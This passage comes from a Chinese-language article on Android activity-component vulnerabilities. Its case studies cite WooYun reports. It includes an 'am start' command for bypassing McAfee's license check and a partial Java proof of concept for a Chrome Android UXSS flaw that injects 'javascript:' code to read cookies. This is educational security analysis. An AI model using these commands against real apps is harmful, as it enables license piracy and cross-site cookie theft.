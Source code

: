 ##0x05 案例

----------

**案例1：绕过本地认证**

http://www.wooyun.org/bugs/wooyun-2010-048502
 
绕过McAfee的key验证，免费激活。

	$ am start -a android.intent.action.MAIN -n com.wsandroid.suite/com.mcafee.main.MfeMain

![](http://static.wooyun.org/drops/20141117/201411171045mcafee.png)
 
**案例2：本地拒绝服务**

http://www.wooyun.org/bugs/wooyun-2010-060423

http://www.wooyun.org/bugs/wooyun-2010-036581

http://www.wooyun.org/bugs/wooyun-2014-048176

http://www.wooyun.org/bugs/wooyun-2014-048501

http://www.wooyun.org/bugs/wooyun-2014-077688 (涉及fragment)

**案例3：界面劫持**

http://www.wooyun.org/bugs/wooyun-2012-05478

 
**案例4：UXSS**

漏洞存在于Chrome Android版本v18.0.1025123，class "com.google.android.apps.chrome.SimpleChromeActivity" 允许恶意应用注入js代码到任意域. 部分 AndroidManifest.xml配置文件如下

	<activity android:name="com.google.android.apps.chrome.SimpleChromeActivity" android:launchMode="singleTask" android:configChanges="keyboard|keyboardHidden|orientation|screenSize">
            <intent-filter>
                <action android:name="android.intent.action.VIEW" />
                <category android:name="android.intent.category.DEFAULT" />
            </intent-filter>
	</activity>

Class "com.google.android.apps.chrome.SimpleChromeActivity" 配置 <intent-filter>但是未设置  "android:exported" 为 "false". 恶意应用先调用该类并设置data为” http://google.com” 再次调用时设置data为恶意js例如'javascript:alert(document.cookie)', 恶意代码将在http://google.com域中执行. "com.google.android.apps.chrome.SimpleChromeActivity" class 可以通过Android api或者am（activityManager）打开. 
POC如下

	public class TestActivity extends Activity {
	    @Override
	    public void onCreate(Bundle savedInstanceState) {
	        super.onCreate(savedInstanceState);
	        Intent i = new Intent();
	                ComponentName comp = new ComponentName(
	                                 "com.android.chrome",
	                                 	"com.google.android.apps.chrome.SimpleChromeActivity");
	                i.setComponent(comp);
	                i.setAction("android.intent.action.VIEW");
	                Uri data = Uri.parse("http://google.com");
	                i.setData(data);
               